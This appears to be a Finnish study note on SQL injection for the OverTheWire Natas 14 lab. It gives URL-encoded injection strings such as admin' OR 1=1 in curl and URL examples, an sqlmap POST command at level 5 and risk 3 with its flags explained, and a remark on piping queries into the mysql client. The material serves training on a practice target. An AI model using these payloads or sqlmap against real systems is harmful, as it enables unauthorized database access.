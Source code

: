 
🔎 Miksi enkoodata?
Web-palvelimet ja selaimet odottavat, että URL:ssa on vain tietyt sallitut merkit. Jos laitat esimerkiksi ' (heittomerkki) suoraan URLiin, se voi rikkoa pyynnön tai aiheuttaa virheen jo ennen kuin se ehtii tietokantaan asti.

esim. `curl "http://example.com/login.php?username=admin%27%20OR%201%3D1%20--&password=whatever"`

Esim. tässä Natas 14 harjoituksessa: `http://natas14.natas.labs.overthewire.org/index.php?debug=1&&username=admin&&password=admin%22%20OR%201=1%E2%80%93%20&&password=admin`

## SQLMAP komento

tehokkuus ja laajuus säädetään sqlmapissa `--level` ja `--risk` -asetuksilla. Ne vaikuttavat siihen, kuinka aggressiivisesti ja syvällisesti sqlmap hyökkää.

Asetus	Merkitys
--level=1-5	- Kuinka laajasti testataan parametreja (1 = nopea, 5 = kaikki mahdolliset)
--risk=1-3	- Kuinka "riskialttiita" hyökkäyksiä käytetään (1 = turvallisia, 3 = voivat rikkoa)

**ESIM**:
SQLMAP komento POST-pyyntö esim:
```
sqlmap -u "http://natas14.natas.labs.overthewire.org/" \
  --auth-type Basic --auth-cred "natas14:YOURPASSWORD" \
  --data="username=admin&password=admin" \
  --level=5 --risk=3 --batch
```

🧠 Selitykset:
-u: URL-osoite (ei tarvitse query-parametreja tässä, koska käytetään --data)

--auth-type Basic: HTTP Basic Auth

--auth-cred: käyttäjä:salasana

--data: POST-data, jota lomake lähettää

--level=5: testaa kaikki kentät ja mutaatiot

--risk=3: kokeilee myös vaarallisempia hyökkäyksiä (esim. viiveet, tiedonhaku)

--batch: automaattivastaukset (ei kysy interaktiivisesti)


## SQL injektio koskien MYSQL komentoa

jos aikoo käyttää MySQL omaa koemntoa, mutta se ei oikeasti toimi Linux terminaalissa, koska se on eri ja sitä joutuu käyttää **PHPMYADMIN** ohjelman alla. Linux terminaalissa voi runnata MySQL komentoa eli `SELECT * FROM USERS` - jotakin linux terminaalin alta, mutta käyttää paikallisen esim. `php -r` - tai tiedostoa tai muuta menetelmänsä mm. echo (eli toista jotakin) niin se voi yhdistää yhteyden MySQL:ään. 

echo komento esim. `echo "SELECT * FROM users;" | mysql -u user -p database_name`- ja huomiona, tämä ottaa vain yhteyttä omaan tietokantaansa ei muuta, ellei ole yhdistynyt muihin tietokantoihin ohjelmiinsa. 

## 🧩 miniyhteenveto natas 14
